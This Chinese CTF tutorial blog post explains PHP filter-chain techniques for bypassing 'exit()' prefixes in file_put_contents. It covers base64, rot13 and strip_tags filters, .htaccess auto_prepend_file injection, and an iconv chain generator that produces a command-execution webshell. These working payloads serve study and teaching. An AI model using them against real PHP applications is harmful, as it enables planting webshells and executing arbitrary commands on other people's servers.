






# 奇安信攻防社区 - 浅学 Filterchain

# 0x0e 前言

这个 filterchain 之前已经学过了，但是 iconv 和死亡杂糅的知识点是分开学的，而且也有一段时间了，所以打算写一篇总结起来学习可能会好一点

# 0x01 前置知识

## Base64 编码与解码

可能刚刚入门 CTF 的师傅都知道 base64 是什么东西，但是不知道它的工作原理。  
base64 编码字符表如下。  


## Encode Process

  
可以看见对于 Sun 来编码，首先就是将三个字节拆开来，再组合最后分成 8bit 进行编码，所以很清楚就能知道 base64 的编码过程就是不断拆开和组合。并且很清楚看见 base64 是 3 个字符 3 个字符进行编码的，当不足的时候会用 `=`；来补齐  
example:

```php
<?
$data = "Delete";
echo base64_encode($data);
//=>RGVsZXRl
$data = "Delet";
echo base64_encode($data);
//=>RGVsZXQ=

?>
```

## Decode Process

那么相反，你就会发现解码过程就是编码的逆运算，但是 base64 是以 4 个 8bit 的数据进行解码并且仅对有效字符进行解码，所以这个地方记住，在后面的知识点需要利用这个知识点。

# 0x02 死亡杂糅

三种情况：  
`file_put_contents($filename,"<?php exit();".$content);`

`file_put_contents($content,"<?php exit();".$content);`

`file_put_contents($filename,$content . "\nxxxxxx");`

## 第一种（文件名和参数可控）

### base64

```php
$filename='php://filter/convert.base64decode/resource=delete.php';
$content = 'aPD9waHAgcGhwaW5mbygpOw==';
```

在前面加一个 a 是因为前面的解码的原因，要凑 4 个字符来  
测试源码：

```php
<?php
$filename = $_GET['filename'];
$content = $_GET['content'];
file_put_contents($filename,"<?php exit();".$content);
?>
```

传参：  
[http://127.0.0.1/2.php?filename=php://filter/convert.base64-decode/resource=delete.php&content=aPD9waHAgcGhwaW5mbygpOw](http://127.0.0.1/2.php?filename=php://filter/convert.base64-decode/resource=delete.php&content=aPD9waHAgcGhwaW5mbygpOw)\==  
可以发现

  
写入成功，如果不补齐的话就会乱码就没办法解析了  
补齐之前为 31 个字符，补后就是 32 个刚好是 4 的倍数，所以可以解析

### rot13

这里我先附上转化的脚本

```python
# time : 2024/1/12
# author : DELETE
import string
result = []
upperCase = string.ascii_uppercase
lowerCase= string.ascii_lowercase
upperDict={}
lowerDict={}
print("welcome to decode rot-13!\n")
inputStr=input("please input what you want to decode\n")
while True:
    print(f"please comfirm {inputStr} is what you want to input if yes input y if not input n")
    flag=input("请确认")
    if(flag=='y') or (flag =='Y'):
        break
    if(flag=='n') or (flag=='N'):
        inputStr=input("please input what string you want to encode or decode!")
    else:
        print("comfir way is illegal")
        break
for i in range(0,len(upperCase)):
    if i < 13:
        upperDict[upperCase[i]]=upperCase[i+13]
    else:
        upperDict[upperCase[i]]=upperCase[i-13]
for i in range(0,len(lowerCase)):
    if i < 13:
        lowerDict[lowerCase[i]]=lowerCase[i+13]
    else:
        lowerDict[lowerCase[i]]=lowerCase[i-13]
for ch in inputStr:
    if ch in lowerCase:
        result.append(lowerDict[ch])
    elif ch in upperDict:
        result.append(upperDict[ch])
result="".join(result)
print(f"final decode result is {result}")
```

这里构造一下编码内容后就是 `<?cuc cucvasb();?>`  
这里我们直接做 playload 传

  
可以看见也是上传了不过这里有个问题就是前面已经有一个标签了所以如果服务器开了短标签，就没办法解析了



### .htaccess 预包含

```cpp
$filename=php://filter/write=string.strip_tags/resource=.htaccess
$content=?>php_value%20auto_prepend_file%20delete.php
```

注意：string.strip\_tags 在 php7.3.0 中被弃用了，所以会报错（不过好像 phpstudy 可以写入) 并且注意下尽量在 docker 起环境，好像 phpstudy 你传就会 500 包含不了。  
其实很简单的就能理解，其实就是做了一个文件包含，先闭合了死亡代码后面写入自定义文件  
CTF 中可以猜 flag 的路径从而完成包含，除了可以简单包含，也是可以利用伪协议或者 utf-7 进行包含

### 组合拳

这里就直接贴出来 s1mple 师傅的一些利用方式不做分析  
1、

```php
$filename='php://filter/string.strip_tags|convert.base64-decode/resource=s1mple.php'
$content='?>PD9waHAgcGhwaW5mbygpOz8+'
```

2、

```php
$filename=php://filter/zlib.deflate|string.tolower|zlib.inflate|/resource=s1mple.php
$content=php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0dphpinfo();?>/resource=s1mple.php
```

## 第二种 (共用一个变量)

首先这里放出 s1ample 师傅的一种打法  
在 php 不为 7 的条件下

```php
?content=php://filter/write=string.strip_tags/?>php_value%20auto_prepend_file%20G:\s1mple.php%0a%23/resource=.htaccess
```

其实也就是写入.htaccess 进行预包含和前面的原理是一样的

### 关于直接使用 Base64 的思考

在这个知识点上，很多师傅都没有成功。  
比如 Cyc1e 师傅写的

```php
php//filter/write=convertbase64decodePD9waHAgcGhwaW5mbygpOz8+/resource=Cyc1e.php
```

s1maple 师傅写的：

```php
php://filter/convert.base64-decode/resource=PD9waHAgcGhwaW5mbygpOz8+.php
```

问题就在于 base64 在解码的时候将 `=` 作为了解码末尾的判断，如果出现的话后面的字符就无法被解码也就无法构成需要的代码。  
于是我去翻了一下 php 中关于 base64 解码的部分函数的代码如下

```c
static zend_always_inline int php_base64_decode_impl(const unsigned char *in, size_t inl, unsigned char *out, size_t *outl, bool strict) /* {{{ */
{
    int ch;
    size_t i = 0, padding = 0, j = *outl;

#if defined(__aarch64__) || defined(_M_ARM64)
    if (inl >= 16 * 4) {
        size_t left = 0;
        j += neon_base64_decode(in, inl, out, &left);
        i = inl - left;
        in += i;
        inl = left;
    }
#endif

    /* run through the whole string, converting as we go */
    while (inl-- > 0) {
        ch = *in++;
        if (ch == base64_pad) {
            padding++;
            continue;
        }

        ch = base64_reverse_table[ch];
        if (!strict) {
            /* skip unknown characters and whitespace */
            if (ch < 0) {
                continue;
            }
        } else {
            /* skip whitespace */
            if (ch == -1) {
                continue;
            }
            /* fail on bad characters or if any data follows padding */
            if (ch == -2 || padding) {
                goto fail;
            }
        }

        switch (i % 4) {
            case 0:
                out[j] = ch << 2;
                break;
            case 1:
                out[j++] |= ch >> 4;
                out[j] = (ch & 0x0f) << 4;
                break;
            case 2:
                out[j++] |= ch >>2;
                out[j] = (ch & 0x03) << 6;
                break;
            case 3:
                out[j++] |= ch;
                break;
        }
        i++;
    }

    /* fail if the input is truncated (only one char in last group) */
    if (strict && i % 4 == 1) {
        goto fail;
    }

    /* fail if the padding length is wrong (not VV==, VVV=), but accept zero padding
     * RFC 4648: "In some circumstances, the use of padding [--] is not required" */
    if (strict && padding && (padding > 2 || (i + padding) % 4 != 0)) {
        goto fail;
    }

    *outl = j;
    out[j] = '\0';

    return 1;

fail:
    return 0;
}
```

注意到 `if (!strict)` 这个判断，也就是在严格模式下他就会对未知字符和空白字符进行跳过，然后这个地方我也去用 gpt 辅助了一下，可以在 php 环境变量之中将其改为非严格模式就可以对 `=` 号的内容继续解码，所以我就去起了一个 docker，但是还是打不通，文件可以生成但是没办法写入内容就很奇怪，（所以在这里还是断了）。

### 去掉等号之过滤器嵌套 base64

这里 S1maple 师傅的 playload：`php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B/../s1mple.php`  
这里利用了伪目录的方法让他生成正常的文件名



### 另类 base64

playload:

```php
php://filter/<?|string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B/../delete.php
```

这里的思路就是将 = 号写到 php 的标识符中进行过滤掉然后再进行转码再分解死亡代码

### rot13

这个相对于 base64 就不是利用特性绕过，所以相对于好用一些

```php
php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=delete.php
```

# 0x03iconv 转换

因为这个知识点 Zedd 师傅单独写了一篇文章，所以我觉得这里不仅可以绕死亡代码也可以用于文件包含当中，于是我将其作为单独的一个知识点分出，但是还是可以绕过第二类的死亡代码的

# 本质上也和 base64 的特性有挂钩，也是不断的去编码解码来获取我们想要的东西

这里我就拿 Zedd 师傅其中的一段我认为比较有代表性的代码块贴出来

```php
<?php
$base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4";
$conversions = array(
    'R' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}
$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=data://,aaaaaaaaaaaaaaaaaaaa";

// echo $final_payload;
var_dump(file_get_contents($final_payload));

// hexdump
// 00000000  73 74 72 69 6e 67 28 31  38 29 20 22 3c 3f 3d 60  |string(18) "<?=`|
// 00000010  24 5f 47 45 54 5b 30 5d  60 3b 3b 3f 3e 18 22 0a  |$_GET[0]`;;?>.".|
```

可以看到这里不断的利用编码和转码进行转化利用 base64 的宽松性来构造出马子  
剩下的那些题目就自己去看吧 hhh  
当然有些师傅有头疼，那我怎么知道经过什么转化能变成我要的东西呀，这里贴一个传送门 hh，一个 fuzz 的代码  
[https://github.com/wupco/PHP\_INCLUDE\_TO\_SHELL\_CHAR\_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)  
tql wupco 师傅

## 第三种类型

`file_put_contents($filename,$content . "\nxxxxxx");`  
这里也就比较简单，其实就是对后面的杂糅内容进行注释，但是题目肯定会做限制，所以也有其他方法，也是可以利用写入`.htaccess` 文件进行预包含将后面的杂糅语句注释掉即可

(好累啊好累啊这里最后一个知识点直接贴大 B 哥的)

# 0x04php://temp

在这里插入一条知识点，就是 temp 和 memory 伪协议：  
`php://memory` 和 `php://temp` 是一个类似文件 包装器的数据流，允许读写临时数据。两者的唯一区别是 php://memory 总是把数据储存在内存中，而 php://temp 会在内存量达到预定义的限制后（默认是 2MB）存入临时文件中。临时文件位置的决定和 sys\_get\_temp\_dir () 的方式一致  
php://temp 的内存限制可通过添加 /maxmemory:NN 来控制，NN 是以字节为单位、保留在内存的最大数据量，超过则使用临时文件

```php
$fiveMBs = 5 * 1024 * 1024;  
$fp = fopen("php://temp/maxmemory:$fiveMBs", 'r+');  
fputs($fp, "hello\n");  
// 读取写入的数据。 
rewind($fp);  
echo stream_get_contents($fp);
```

php://memory 和 php://temp 是一次性的，比如：stream 流关闭后，就无法再次得到以前的内容了

```php
file_put_contents('php://memory', 'PHP');  
echo file_get_contents('php://memory'); // 啥也没有
```

参考文章：  
1、 [https://boogipop.com/2023/03/02/FilterChain%E6%94%BB%E5%87%BB%E8%A7%A3%E6%9E%90%E5%8F%8A%E5%88%A9%E7%94%A8/#Filterchain%E6%9E%84%E9%80%A0%EF%BC%88%E5%8E%9F%E7%90%86%E9%98%90%E8%BF%B0%EF%BC%89](https://boogipop.com/2023/03/02/FilterChain%E6%94%BB%E5%87%BB%E8%A7%A3%E6%9E%90%E5%8F%8A%E5%88%A9%E7%94%A8/#Filterchain%E6%9E%84%E9%80%A0%EF%BC%88%E5%8E%9F%E7%90%86%E9%98%90%E8%BF%B0%EF%BC%89)  
2、 [https://xz.aliyun.com/t/8163?time\_\_1311=n4%2BxuDgDBDyGKAKD%3DD7Dl1oQST4j2DiKErYx&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-6](https://xz.aliyun.com/t/8163?time__1311=n4%2BxuDgDBDyGKAKD%3DD7Dl1oQST4j2DiKErYx&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-6)  
3、 [https://tttang.com/archive/1395/](https://tttang.com/archive/1395/)
